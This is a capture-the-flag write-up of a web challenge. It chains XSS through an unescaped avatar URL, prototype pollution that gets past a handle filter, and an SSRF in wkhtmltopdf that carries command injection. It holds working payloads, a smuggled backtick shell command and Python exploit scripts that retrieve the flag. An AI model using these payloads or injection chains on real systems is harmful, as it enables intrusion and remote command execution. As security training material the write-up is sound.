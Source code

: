 ```yaml
---
created: 2025-03-02T05:54
updated: 2025-03-02T07:39
---
```


```html
<div class="box-left">
	{{ userAvatarUrl | renderUrlAsAvatar | safe }}
</div>
```

`| safe` bypasses safety checks, this is definitely a XSS attack vector.

After looking a bit, my `userAvatarUrl` has to pass the url check.

```js
function isValidHttpUrl(url) {
    if (typeof url !== "string") return false;
    try {
        const parsedUrl = new URL(url);
        return parsedUrl.protocol === "http:" || parsedUrl.protocol === "https:";
    } catch (e) {
        return false;
    }
}
```

Well we can simply bypass it with this.

```
http://qwd.w?<img onerror='alert(1)' src=0>
```

But wait, the image itself is again generated from somewhere else.

```js
userData.getAvatarUrl = async function () {
	// Lazy loading pattern
	if (typeof this.avatarUrl == 'undefined') {
		// Trick: checking if the Github handle is valid by verifying the existence of a profile pic
		let isValidGithubHandle;
		try {
			const githubProfilePicUrl = `https://github.com/${this.github}.png`;
			isValidGithubHandle = (await axios.get(githubProfilePicUrl, {maxRedirects: 2})).status === 200;
		} catch {
			isValidGithubHandle = false;
		}
		this.avatarUrl = isValidGithubHandle ? `https://github.com/${this.github}.png` : 'undefined';
	}
	return this.avatarUrl;
};
```

Some minor changes should make it still work.

```
http://github.com/ octo-kumo.png?<img onerror='alert(1)' src=0> .png
```

Oh wait! There's another filter!

```js
function isLikelyValidGitHubHandle(username) {
    if (typeof username !== "string") return false;
    const regex = /^[a-zA-Z0-9]([a-zA-Z0-9-]{0,37}[a-zA-Z0-9])?$/;
    return regex.test(username);
}
```

Wait... there's prototype pollution?

```js
app.post('/set-config', [
	body('config')
		.trim()
		.isString()
		.notEmpty()
		.withMessage('Config must be a non-empty string.'),
	body('key')
		.trim()
		.isString()
		.notEmpty()
		.withMessage('Config must be a non-empty string.'),
	body('val')
		.trim()
		.isString()
		.notEmpty()
		.withMessage('Config must be a non-empty string.'),
],
async (req, res) => {
	const errors = validationResult(req);
	if (!errors.isEmpty()) {
		return res.status(400).json({errors: errors.array()});
	}
	const cfg = req.body.config;
	if (cfg in config) {
		const key = req.body.key;
		const val = req.body.val;
		config[cfg][key] = val;
		res.json({message: `Mode set to ${val}`});
	} else {
		return res.status(400).json({errors: [`Invalid configuration ${val}`]});
	}
});
```

Wait... prototype pollution can bypass the hard regex filters!

```js
userData.getAvatarUrl = async function () {
	// Lazy loading pattern
	if (typeof this.avatarUrl == 'undefined') {
		// Trick: checking if the Github handle is valid by verifying the existence of a profile pic
		let isValidGithubHandle;
		try {
			const githubProfilePicUrl = `https://github.com/${this.github}.png`;
			isValidGithubHandle = (await axios.get(githubProfilePicUrl, { maxRedirects: 2 })).status === 200;
		} catch {
			isValidGithubHandle = false;
		}
		this.avatarUrl = isValidGithubHandle ? `https://github.com/${this.github}.png` : 'undefined';
	}
	return this.avatarUrl;
};
```

Now we just need a payload here.

```js
function renderUrlAsAvatar(url) {
    const imgUrl = isValidHttpUrl(url) ? url : `https://i.pravatar.cc/400?u=${Math.floor(Math.random() * 1000) + 1}`;
    return `<div style="border-radius: 50%;overflow: hidden;width: 100%;"><img src="${imgUrl}" style="width: 100%; height: 100%; object-fit: cover;"/></div>`
}
```

This should work pretty well.

```
"http://w.w?\" onerror=\"alert(1)"
```

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1740915439/2025/03/4398a7878da7e227f57d0b8eca92489d.png)

It worked!

So we have XSS, now what?

## PDF SSRF

Turns out **wkhtmltopdf:0.12.6** has a 9.8 vuln [NVD - CVE-2022-35583](https://nvd.nist.gov/vuln/detail/CVE-2022-35583).

I couldn't find PoCs on it, but I think the gist of it is to use iframes.

If we get a SSRF from `/make-card-pdf` back onto `/make-card-pdf` but with malicious inputs, we have free shell.

There is no validation on `/make-card-pdf`.

A naïve solution is complete.

```python
print(prototype('avatarUrl', 'http://yun.ng?"><iframe src="http://127.0.0.1:1984/make-card-pdf?data=\'`ls`\' ce79f83f719f29dab8dd7818048fc99a"></iframe>'))
```

But it doesn't work.

```
Error: Failed to load http://127.0.0.1:1984/make-card-pdf?data='%60ls%60' ce79f83f719f29dab8dd7818048fc99a, with network status code 204 and http status code 401 - Host requires authentication
```

Turns out I had to escape the space.

But after a lot of experimenting I couldn't get the output of the command to display in the pdf.

So I decided to just overwrite (or not) a previous PDF with the output of `/usr/bin/echo-flag`

```python
prototype('avatarUrl', 'http://yun.ng?innocent')
cardId1 = makeCard()
print("target cardId:", cardId1)
cardId = makeCard()
prototype('avatarUrl', 'http://yun.ng?"><iframe src="http://localhost:1984/make-card-pdf?data=\'`/usr/bin/echo-flag>/home/chall/storage/'+cardId1+'.pdf`\'%20'+cardId+'" width="600" height="500"></iframe><!--')
cardId = makeCard()
print("Card ID:", cardId)
downloadCard(cardId)

flag = requests.get(target + '/download-card?email=ww@ww.com&cardId='+cardId1).text
print(flag)
```

```flag
ATHACKCTF{Spacele$$_$$urfing_On_Polluted_$hells}
```
